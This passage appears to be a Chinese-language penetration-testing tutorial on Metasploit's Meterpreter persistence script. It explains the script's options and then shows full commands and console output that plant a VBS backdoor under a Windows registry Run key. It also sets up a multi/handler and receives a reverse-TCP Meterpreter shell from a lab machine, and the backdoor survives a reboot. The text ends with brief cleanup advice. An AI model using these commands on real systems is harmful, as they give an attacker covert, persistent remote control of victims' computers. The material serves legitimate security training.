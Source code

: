 参数：

-P：设置 Payload，默认为 windows/meterpreter/reverse_tcp。该默认的 payload 生成的后门为 32 位程序。因此，当目标机器为 64 位系统时，留下的后门将无法运行；

-U：设置后门在用户登录后自启动。该方式会在 HKCU\Software\Microsoft\Windows\CurrentVersion\Run 下添加注册表信息。推荐使用该参数；

-X：设置后门在系统启动后自启动。该方式会在 HKLM\Software\Microsoft\Windows\CurrentVersion\Run 下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。因此，在非管理员权限或者未进行 BypassUAC 操作情况下，不推荐使用该参数；

-i：设置反向连接间隔时间，单位为秒。当设置该参数后，目标机器会每隔设置的时间回连一次所设置的 ip；

-p：设置反向连接的端口号。即黑阔用来等待连接的端口；

-r：设置反向连接的 ip 地址。即黑阔用来等待连接的 ip；

执行：run persistence -U -i 10 -p 4444 -r 192.168.43.100

meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.43.100

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Running Persistence Script
[*] Resource file for cleanup created at /Users/go0s/.msf4/logs/persistence/GO0S-PC_20180112.2629/GO0S-PC_20180112.2629.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444
[*] Persistent agent script is 99646 bytes long
[+] Persistent Script written to C:\Users\Go0s\AppData\Local\Temp\SAaYfc.vbs
[*] Executing script C:\Users\Go0s\AppData\Local\Temp\SAaYfc.vbs
[+] Agent executed with PID 156
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\irZnsVkfdRUZIB
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\irZnsVkfdRUZIB
同样使用 handler 模块链接后门，payload 使用 windows/meterpreter/reverse_tcp；

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.43.100
LHOST => 192.168.43.100
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.43.100:4444
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49365) at 2018-01-12 15:27:15 +0800

meterpreter > getuid
Server username: Go0s-PC\Go0s
设置时间间隔为 10s，很快；

重启目标机，仍然上线，还是很稳的；

其脚本主要做的工作：

①、上传后门到目标机器【meterpreter 的 upload 命令】；

②、再写自启动注册表【reg】；

根据执行脚本时提示的 vbs 文件和注册表位置，进行删除后门；


[go0s]: ~